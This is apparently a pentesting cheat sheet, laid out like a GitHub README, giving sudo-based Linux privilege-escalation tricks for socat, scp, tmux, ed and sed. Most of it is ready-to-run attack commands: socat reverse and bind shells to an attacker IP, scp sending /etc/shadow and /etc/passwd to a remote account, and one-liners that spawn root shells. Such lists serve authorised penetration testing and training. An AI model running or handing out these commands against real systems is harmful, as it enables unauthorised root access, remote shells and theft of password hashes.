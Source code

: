 <h3>TRICKS and TIPS</h3> </br>

**socat,scp,tmux,ed,sed,pip,git,cp,taskset,xxd,cat,Find,wget,zip,apt,cronjob,automation script,nfs**
- 1)Linux For Pentester: socat Privilege Escalation </br>
    sudo rights  sudo -l </br>
    test ALL=(root) NOPASSWD: /usr/bin/socat</br>
    method 1)</br>
    Victim: sudo socat TCP4-LISTEN:1234, reuseaddr EXEC:"/bin/sh"</br>
    Attacker: socat – TCP4:192.168.1.100:1234</br>
    Method 2)</br>
    Victim:sudo socat exec:'sh –li' ,pty,stderr,setsid,sigint,sane tcp:192.168.1.106:1234</br>
    Attacker: socat file: 'tty',raw,echo=0 tcp-listen:1234</br>

Reference: https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/</br>

- 2)Linux for Pentester: scp Privilege Escalation</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /usr/bin/scp</br>
    method 1)</br>
    Victim:</br>
    TF=$(mktemp)</br>
    echo 'sh 0<&2 1>&2' > $TF</br>
    chmod +x "$TF"</br>
    sudo scp -S $TF x y:</br>
    method 2)</br>
    service ssh status (active)</br>
    Victim:</br>
    sudo scp /etc/passwd komal@192.168.1.11:~/</br>
    sudo scp /etc/shadow komal@192.168.1.11:~/ </br>
    Attacker:</br>
    head /home/komal/shadow</br>
    head /home/komal/passwd</br>

- 3)Linux For Pentester: tmux Privilege Escalation</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /usr/bin/tmux</br>
    victim:</br>
    sudo tmux</br>
    (a new terminal with root privilege shell.)</br>
    reference:https://www.hackingarticles.in/category/privilege-escalation/page/3/</br>

- 4)Linux for Pentester: ed Privilege Escalation</br>
    Reference: https://www.hackingarticles.in/linux-for-pentester-ed-privilege-escalation/</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /bin/ed</br>
    victim: sudo ed</br>

- 5)Linux for Pentester: sed Privilege Escalation</br>
    Reference: https://www.hackingarticles.in/linux-for-pentester-sed-privilege-escalation/</br>
    sudo -l</br>
    test All=(root) NOPASSWD: /usr/bin/sed</br>
    Victim:</br>
    sudo sed -n '1e exec sh 1>&0' /etc/passwd</br>
